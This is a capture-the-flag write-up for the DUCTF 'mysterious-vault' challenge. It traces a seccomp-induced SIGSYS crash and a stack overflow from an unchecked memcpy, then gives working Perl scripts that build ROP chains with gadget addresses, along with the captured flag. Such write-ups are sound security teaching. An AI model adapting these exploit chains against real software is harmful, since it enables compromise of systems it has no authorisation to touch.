






22/07/25
justme10101
You've discovered a mysterious vault exposed on a server - surely, if you can break in, great rewards will follow...
Given mysterious-vault.zip:
.
└── mysterious-vault
├── Dockerfile
├── checker1-trusted-env
│ └── password
├── checker2-trusted-env
│ └── password
├── flag.txt
├── mysterious_vault
├── mysterious_vault.c
├── nsjail.cfg
├── password_handler_3000
├── password_handler_3001
└── password_handler_300X.c
Directory contains:
chroot(2) system callI have very limited experience with Docker, that's why I decided to create chroot jail manually myself. Even though I am using Alpine Linux, dynamically linked executable runs just fine thanks to gcompat. I'd downloaded mini root filesystem from Alpine's website and copied all the necessary files according to Dockerfile.
# curl -LO https://dl-cdn.alpinelinux.org/alpine/v3.22/releases/x86_64/alpine-minirootfs-3.22.1-x86_64.tar.gz
# mkdir _chroot
# tar -xzf alpine-minirootfs-3.22.1-x86_64.tar.gz -C _chroot
# mount -t proc proc _chroot/proc
# mount -o bind /run _chroot/run
# mount -o bind /sys _chroot/sys
# mkdir -p _chroot/home/ctf
# cp -v mysterious_vault _chroot/home/ctf
# cp -v password_handler_300* _chroot/home/ctf
# cp -vR checker{1,2}-trusted-env _chroot/home/ctf
# chroot _chroot /bin/sh
# adduser ctf
# chown -R ctf:ctf /home/ctf
# su ctf
$ cd
$ head -1 /etc/os-release
NAME="Alpine Linux"
Executable produced an error:
$ ./mysterious_vault ERROR. CRITICAL ERROR FOR `shmid`. PLEASE CONTACT ADMINISTRATIVE ENTITIES
In setup() function of mysterious_vault.c there is
shmget(2) syscall, which creates shared memory segment.
It is generally used for inter-process communication.
int shmid = shmget(0xdeadbeef, 0x20, IPC_CREAT);
if (shmid < 0) {
fprintf(stderr, "ERROR. CRITICAL ERROR FOR `shmget`. PLEASE CONTACT ADMINISTRATIVE ENTITIES\n");
exit(1);
}
Apparently my user doesn't have privileges to create this
segment. As stated in shmget(2), EACCESS is returned if
caller doesn't have CAP_IPC_OWNER capability. Once started as
root, everything works just fine:
# ./mysterious_vault ACCESS REQUIRED. ENTER USERNAME: aaaa ENTER PASSCODE: aaaa AUTHENTICATING. SPAWNING CHECKER 0x1 SPAWNING CHECKER 0x2 PASSWORD CHECKER HAS FAILED. THE VAULT SHALL REMAIN CLOSED.
It asks for username and password, then does internal checks.
Program creates two child processes from
password_handler_3000 and password_handler_3001
accordingly, using fork(2) and execve(2). It also changes
root directory via chroot(2) prior to executing, thus ensuring
children won't touch anything outside trusted environment. That's
exactly why they are statically linked — there is no
/usr/lib.
I found it strange that password checker has failed, sounds like
program has crashed. And indeed, here is the check in
mysterious_vault's main():
while ((wpid = wait(&status)) > 0) {
if (WIFEXITED(status)) {
if (WEXITSTATUS(status) != 0) {
printf("PASSWORD CHECKER HAS FAILED. THE VAULT SHALL REMAIN CLOSED.\n");
exit(1);
}
}
else {
printf("PASSWORD CHECKER HAS FAILED. THE VAULT SHALL REMAIN CLOSED.\n");
exit(1);
}
}
Message is printed if child's exit status is not EXIT_SUCCESS.
In the end of main() in password_handler_300X.c I saw
this check:
if (strcspn(password, "password") != strlen(password)) {
exit(1);
}
return 0;
}
Basically, if password contains any of
'p','a','s','w','o','r','d' characters, child
exits with code 1, which causes "PASSWORD CHECKER HAS FAILED"
error message to be printed. I'd tried 'yyy' string, but to
my surprise — got the same result. This means
WIFEXITED() is failing. From wait(2):
returns true if child terminated normally, that is, by calling exit(3) or _exit(2), or by returning from main()
Maybe child's being crashed because of my environment, gcompat and stuff? I recompiled all binaries from source to make native copies, ran it again and got the same result again. Weird. At this moment I honestly thought that this challenge is in fact broken. Does it work on server?
$ nc chal.2025.ductf.net 30019 ACCESS REQUIRED. ENTER USERNAME: jjj ENTER PASSCODE: jjj AUTHENTICATING. SPAWNING CHECKER 0x1 SPAWNING CHECKER 0x2 PASSWORD CHECKER HAS FAILED. THE VAULT SHALL REMAIN CLOSED.
Well, it doesn't.
I've rebuilt child with -g -O0 flags to step through it in
gdb(1). Unfortunately, by default gdb doesn't attach to child
process after fork(2). With a bit of googling I found out
'follow-fork-mode' setting is responsible for that. When set to
'child', gdb detaches from parent and attaches to child process
after forking. In combination with catch exec it makes
possible to catch execve(2) syscalls as well.

SIGSYS signal raises when process is trying to execute
an illegal syscall. I quickly searched the web to find most
popular causes of SIGSYS in Linux environment, but none of
them were my case. I single-stepped through source, and it seems
that program catches SIGSYS in the very end of main(). More
specifically, in _Exit(2) internal libc function. Here is how
it looks like in my case:
gef> disas _Exit Dump of assembler code for function _Exit: => 0x00007ffff7f9ac37 <+0>: movsxd rdi,edi 0x00007ffff7f9ac3a <+3>: mov eax,0xe7 0x00007ffff7f9ac3f <+8>: syscall
edi gets sign-extended to rdi, then eax (system call table index) is set to 0xe7, which corresponds to exit_group(2) syscall.
This system call terminates all threads in the calling process's thread group.
Seems pretty legal(?) to me.
I've built a simple program with
empty main() just to see what happens after returning in detail:
libc_start_main_stage2()libc_start_main_stage2() retrieves exit code and passes it to
exit(3)exit(3) calls following functions in that exact order:
__funcs_on_exit()__libc_exit_fini()__stdio_exit()_Exit(2)I remembered that password_handler_300* locks itself by
closing stdin, stdout and stderr descriptors. __stdio_exit()
then tries to close them once again:
void __stdio_exit(void)
{
FILE *f;
for (f=*__ofl_lock(); f; f=f->next) close_file(f);
close_file(__stdin_used);
close_file(__stdout_used);
close_file(__stderr_used);
}
Trying to close already closed fds sounds wacky, so close(2)
syscall might fail with some error code, which gets eventually
transferred all over to exit_group(2). This error code can
potentially be value, which is equal to SIGSYS.
I found out this isn't true though, because even if
close_file() and underlying close(2) in __stdio_exit()
fails, it doesn't return anything anyway, thus doesn't trash
rdi. I honestly don't know why I though it does.
I was looking at password_handler_300X.c for a while and searching the web with prompts like '<function I don't know about> SIGSYS Linux'. Eventually I've stumped upon seccomp(2).
if (prctl(PR_SET_SECCOMP, 2, &prog)) {
fprintf(stderr, "ERROR. CRITICAL ERROR WHEN LOCKING DOWN CHECKER. PLEASE CONTACT ADMINISTRATIVE ENTITIES.\n");
exit(1);
}
From prctl(2):
prctl() manipulates various aspects of the behavior of the calling thread or process.
2 is define of SECCOMP_MODE_FILTER — user-supplied
filter, which specifies what syscalls is program able to use.
That's exactly the problem — if exit_group(2) is blocked in
filter, program gets crashed on exit. From seccomp(2):
Caveats
Seccomp filtering is based on system call numbers. However, applications typically do not directly invoke system calls, but instead call wrapper functions in the C library which in turn invoke the system calls. Consequently, one must be aware of the following:
The glibc wrappers for some traditional system calls may actually employ system calls with different names in the kernel. For example, the exit(2) wrapper function actually employs the exit_group(2) system call, and the fork(2) wrapper function actually calls clone(2).
Filter is passed as an obfusctaed string containing hex values (filter_bytes). It's Berkeley Packet Filter program. Several tools exist to dump that, for example this:
$ echo -ne "\x20\x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x08\x3e\x00\x00\xc0\x20\x00\x00\x00\x00\x00\x00\x00\x35\x00\x00\x01\x00\x00\x00\x40\x15\x00\x00\x05\xff\xff\xff\xff\x15\x00\x03\x00\x00\x00\x00\x00\x15\x00\x02\x00\x01\x00\x00\x00\x15\x00\x01\x00\x3c\x00\x00\x00\x15\x00\x00\x01\x02\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f\x06\x00\x00\x00\x00\x00\x00\x00" > seccomp.bpf $ seccomp-tools disasm seccomp.bpf line CODE JT JF K ================================= 0000: 0x20 0x00 0x00 0x00000004 A = arch 0001: 0x15 0x00 0x08 0xc000003e if (A != ARCH_X86_64) goto 0010 0002: 0x20 0x00 0x00 0x00000000 A = sys_number 0003: 0x35 0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005 0004: 0x15 0x00 0x05 0xffffffff if (A != 0xffffffff) goto 0010 0005: 0x15 0x03 0x00 0x00000000 if (A == read) goto 0009 0006: 0x15 0x02 0x00 0x00000001 if (A == write) goto 0009 0007: 0x15 0x01 0x00 0x0000003c if (A == exit) goto 0009 0008: 0x15 0x00 0x01 0x00000002 if (A != open) goto 0010 0009: 0x06 0x00 0x00 0x7fff0000 return ALLOW 0010: 0x06 0x00 0x00 0x00000000 return KILL
And indeed, only read(2), write(2), exit(2) and open(2)
syscalls are allowed. Even to reach password checking part, I
need to call exit(2) to exit gracefully. That's totally not
what I was expecting.
In order to perform further checks, password_handler_300X.c copies password from shared memory to local storage on stack:
char password[200] = {0};
int passwd_len = 0;
passwd_len = *((int*)(SHARED_ADDR+4));
memcpy(password, (char*)SHARED_ADDR+8, passwd_len);
*((int*)SHARED_ADDR) += 1;
This memcpy(3) call immediately caught my eye. There are no
checks against password length, so when password is bigger than
200 bytes, there is an obvious stack overflow. Given binary was
compiled with -fno-stack-protector, meaning no stack canary. It's
statically linked with static base address 0x400000, meaning ROP
is more than possible.
I've recompiled my MUSL binaries to make them static and explicitly set base:
password_handler_300%: password_handler_300X.c
echo $@ | grep -q 'X.c' || cc -static -static-libgcc -static-libstdc++ -Wl,--image-base=0x400000 $(CFLAGS) -o $@ $<
^^^ Don't mind ugly grep(1) hack, I'm just too lazy to figure out how to filter out password_handler_300X.c from Make targets.
Password displacement on stack is rbp - 0xe0, as can be seen in binary:

rbp gets pushed to stack in prologue, so return address is at rbp + 8, meaning 0xe0 + 8 bytes are needed to reach that.
The problem is that program is using read(2) instead of
fgets(3) or similar libc functions, so it reads until EOF, not
until '\n'. Multiple lines from input pipe would be
considered as one line which has '\n' in it. I found out
FIFO and script can be used to produce right behaviour.
#!/bin/sh echo line1 echo line2
$ [ ! -p /tmp/p ] && mkfifo /tmp/p $ chmod +x ./script.sh && ./script.sh > /tmp/p & $ su # gdb --command=start.gdb -q ./mysterious_vault # (gdb) r < /tmp/p
Using gef I found convenient
exit(2) syscall in password_handler_3000 original binary:

Lucky me, it zeroes out edi, so I don't need to do that myself in ROP chain. Simple perl script to test overflow:
#!/usr/bin/perl
print(
'q'x(0xe0+8) .
pack('Q',0x401ffa));
Still crashes, but this time in password_checker_3001. I thought they were compiled from the same source, therefore are equal, but they differ in size:

First one is twice bigger than second. I found out they were
compiled using different compilers, gcc and clang accordingly.
I replaced 3001 one with 3000 temporarily just to see if
I managed to ROP into exit(2) in at least first one:
# ./mysterious_vault < /tmp/p ACCESS REQUIRED. ENTER USERNAME: ENTER PASSCODE: AUTHENTICATING. SPAWNING CHECKER 0x1 SPAWNING CHECKER 0x2 DENIED. THE VAULT SHALL REMAIN CLOSED FOR ALL OF ETERNITY.
Password is stored in mysterious_vault.c in a define:
#define CORRECT_PASSPHRASE "\x31\xd2\x48\x8d\x35\x1c\x00\x00\x00\x80\xfa\x1b\x7d\x0a\x80\x36\x42\xfe\xc2\x48\xff\xc6\xeb\xf1\xbf\x01\x00\x00\x00\x48\x29\xd6\x89\xf8\x0f\x05\xc3\x1b\x2d\x37\x62\x24\x2d\x37\x2c\x26\x62\x36\x2a\x27\x62\x27\x23\x31\x36\x27\x30\x62\x27\x25\x25\x62\x78\x6b"
Can't be that easy, right? It just lies in .rodata as is. I
thought that this password is different on server, that's why I
should leak it somehow. I started to dig into chroot(2) man
page and search for caveats, but didn't find anything
interesting.
When process executes execve(2), it's running image gets
replaced with a new one. Maybe there are some optimizations in
kernel, which cause some virtual memory to be preserved, e.g.
in case new .rodata section size is less than old .rodata.
But even if it is like that, password_handler_300*
.rodata is obviosly greater than parent's because they are
statically linked.
I decided to make an assumption, that CORRECT_PASSPHRASE on server is exactly the same as in mysterious_vault.c for now, to figure out what's the deal with password_handler_3001.
I opened it in Ghidra, located "password" string from main()
and figured out the password buffer offset on stack is now
different:

It is now rbp - 0xd0 instead of rbp - 0xe0. So new exploit layout should look like this:

Unfortunately, I didn't find any "shortcuts", that's why ROP
chain needs to set rdi, rax and jump to syscall
instruction. Before that — it should pop 2 values from
stack, which are 8 bytes of padding and
password_handler_3000 main() return address.
#!/usr/bin/perl
print(
# padding
'q'x(0xd0+8) .
# [3001] -> pop r14; pop r15; ret
pack('Q', 0x421b41) .
# padding
'q'x8 .
# [3000] -> exit(0)
pack('Q',0x401ffa) .
# [3001] -> pop rdi; ret
pack('Q', 0x421b44) .
pack('Q', 0x0) .
# [3001] -> pop rax; ret
pack('Q', 0x41dc79) .
pack('Q', 0x3c) .
# [3001] -> syscall
pack('Q', 0x401a32) );
Last part is to satisfy memcmp(3) at the very end of main()
in mysterious_vault.c. I replaced first part of padding
with CORRECT_PASSPHRASE, but that didn't work. Here are the
contents of source and destination buffers passed to final
memcmp(3):

It's clear that passphrase is shifted to right in my case.
That's because *SHARED_ADDR is used for synchronization between
children, and *(SHARED_ADDR + 1) is for password length. I got
rid of first 8 bytes in print() in my script, so it prints the rest. The only
problem now — how to overwrite first 8 bytes of SHARED_ADDR?
ROP needs some gadget to write arbitrary 8 byte vaule into arbitrary location, preferably specified by register. After a couple of minutes in Ghidra I found this:
0041a1b8 48 89 MOV qword ptr [RBP + -0x10]=>local_18, RSI 0041a1bc 48 8b MOV RAX, qword ptr [RBP + -0x8]=>local_10 0041a1c0 48 6b IMUL RCX, qword ptr [RBP + -0x10]=>local_18, 0x18 0041a1c5 48 01 c8 ADD RAX, RCX 0041a1c8 5d POP RBP 0041a1c9 c3 RET
Sure, it trashes rcx, rax and rbp registers, but I
don't care about it in this case. rbp - 0x10 must be set to
destination address and rsi is the value to write. Value
should be 0x00001c358d48d231 (first 8 bytes of password in
reverse order).
#!/usr/bin/perl
print("\x00\x80\xfa\x1b\x7d\x0a\x80\x36\x42\xfe\xc2\x48\xff\xc6\xeb\xf1\xbf\x01\x00\x00\x00\x48\x29\xd6\x89\xf8\x0f\x05\xc3\x1b\x2d\x37\x62\x24\x2d\x37\x2c\x26\x62\x36\x2a\x27\x62\x27\x23\x31\x36\x27\x30\x62\x27\x25\x25\x62\x78\x6b");
print("q"x(0xd0-0x40+8+8));
my @rop_chain = (
# [3001] -> pop r14; pop r15; ret
# --- 0xd0 + 8 ---
0x41d280,
# padding until -0xe0 + 8
0x0,
# --- 0xe0 + 8 ---
# [3000] -> exit(0)
0x401ffa,
# [3001] -> pop rbp; ret
0x41a1c8,
0x1337000 + 0x10, # rbp + 0x10
# [3001] -> pop rsi
0x41d163,
0x00001c358d48d231, # 2; length
# [3001] vvvvvvvvvvvvvvvvvvvvvvvvvv
# mov QWORD PTR [rbp-0x10],rsi
# mov rax,QWORD PTR [rbp-0x8]
# imul rcx,QWORD PTR [rbp-0x10],0x18
# add rax,rcx
# pop rbp
# ret
0x41a1b8,
0x0, # rbp
# [3001] -> pop rax; ret
0x41dc79,
0x3c,
# [3001] -> pop rdi; ret
0x41d282,
0x00,
# [3001] -> syscall
0x401a32 );
foreach my $idd (@rop_chain) {
print(pack('Q', $idd));
}
Eventually, I got successfully pwned this one on server:

Flag: DUCTF{pushing_and_popping_and_so_on_and_so_forth}
--- a/Dockerfile +++ b/Dockerfile @@ -9,3 +9,9 @@ COPY ./password_handler_300* /home/ctf/chal COPY ./checker1-trusted-env/ /home/ctf/chal/checker1-trusted-env COPY ./checker2-trusted-env/ /home/ctf/chal/checker2-trusted-env + +EXPOSE 9999 +RUN apt update && apt install gdbserver +WORKDIR /home/ctf/chal + +CMD [ "gdbserver", ":9999", "./pwn" ]